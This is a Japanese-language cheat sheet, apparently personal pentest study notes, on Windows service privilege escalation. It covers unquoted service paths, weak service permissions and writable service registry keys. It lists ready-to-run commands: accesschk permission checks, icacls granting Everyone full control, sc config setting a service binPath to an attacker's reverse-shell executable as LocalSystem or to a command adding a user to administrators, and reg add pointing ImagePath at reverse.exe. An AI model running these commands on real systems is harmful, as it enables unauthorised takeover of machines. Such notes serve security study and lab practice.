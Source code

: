 ### 引用符

サービスの exe 設定が適切な引用符で囲まれていない場合

```text
例：
"C:Programs\example service\srv.exe" params
であれば問題ないが、

C:Programs\example service\srv.exe params
と設定されてある場合、

C:Programs\example.exe の方が、実行優先順位が高い
```

```sh
# ディレクトリへの書き込みが許可されているか
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
```

### サービス DALC

サービスの設定自体を変更できるか

```shell
# accesschk は sysinternals のツール
# SERVICE_CHANGE_CONFIG がサービスを変更する権限
accesschk.exe /accepteula -uwcqv user daclsvc

accesschk64.exe -qlc <service-name>

# SERVICE_START_NAME : LocalSystem か確認
sc qc daclsvc

icacls C:\Users\attacker\rev-svc.exe /grant Everyone:F

sc.exe config <service-name> binPath= "C:\Users\attacker\rev-svc.exe" obj= LocalSystem
# こういう書き方もできる。
sc config daclsvc binpath= "net localgroup administrators user /add"

net start <service-name>
```

### サービスレジストリ

```sh
# レジストリに書き込み可能か
C:\PrivEsc\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\<service-name>

reg add HKLM\SYSTEM\CurrentControlSet\services\<service-name> /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
```

## レジストリ
